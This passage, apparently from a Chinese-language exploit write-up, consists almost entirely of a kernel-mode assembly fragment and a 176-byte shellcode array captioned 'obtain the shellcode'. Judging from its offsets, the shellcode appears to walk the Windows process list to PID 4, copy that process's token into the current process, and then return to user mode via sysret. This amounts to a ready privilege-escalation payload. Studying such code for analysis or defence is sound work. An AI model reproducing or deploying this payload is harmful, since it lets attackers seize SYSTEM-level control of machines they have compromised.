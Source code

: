 ```plain
    mov     cx, [rax+1E4h]
    inc     cx
    mov     [rax+1E4h], cx
    mov     rdx, [rax+90h]
    mov     rcx, [rdx+168h]
    mov     r11, [rdx+178h]
    mov     rsp, [rdx+180h]
    mov     rbp, [rdx+158h]
    xor     eax, eax
    swapgs
    o64 sysret
```

得到 shellcode

```plain
unsigned char cmd[176] = {
    0x48, 0x31, 0xC0, 0x65, 0x48, 0x8B, 0x80, 0x88, 0x01, 0x00, 0x00, 0x48,
    0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xC1, 0x48, 0x8B, 0x80,
    0x48, 0x04, 0x00, 0x00, 0x48, 0x8B, 0x00, 0x48, 0x8B, 0x50, 0xF8, 0x49,
    0x89, 0xC0, 0x48, 0x8B, 0x00, 0x48, 0x83, 0xFA, 0x04, 0x75, 0xF0, 0x49,
    0x8B, 0x50, 0x70, 0x48, 0x83, 0xE2, 0xF8, 0x49, 0x8B, 0x89, 0xB8, 0x04,
    0x00, 0x00, 0x48, 0x83, 0xE1, 0x07, 0x48, 0x01, 0xCA, 0x49, 0x89, 0x91,
    0xB8, 0x04, 0x00, 0x00, 0x49, 0x8B, 0x50, 0x70, 0x48, 0x83, 0xE2, 0xF0,
    0x48, 0x8B, 0x5A, 0x40, 0x49, 0x8B, 0x89, 0xB8, 0x04, 0x00, 0x00, 0x48,
    0x83, 0xE1, 0xF0, 0x48, 0x89, 0x59, 0x40, 0x48, 0x89, 0x59, 0x48, 0x65,
    0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 0x66, 0x8B, 0x88, 0xE4,
    0x01, 0x00, 0x00, 0x66, 0xFF, 0xC1, 0x66, 0x89, 0x88, 0xE4, 0x01, 0x00,
    0x00, 0x48, 0x8B, 0x90, 0x90, 0x00, 0x00, 0x00, 0x48, 0x8B, 0x8A, 0x68,
    0x01, 0x00, 0x00, 0x4C, 0x8B, 0x9A, 0x78, 0x01, 0x00, 0x00, 0x48, 0x8B,
    0xA2, 0x80, 0x01, 0x00, 0x00, 0x48, 0x8B, 0xAA, 0x58, 0x01, 0x00, 0x00,
    0x31, 0xC0, 0x0F, 0x01, 0xF8, 0x48, 0x0F, 0x07
};
```
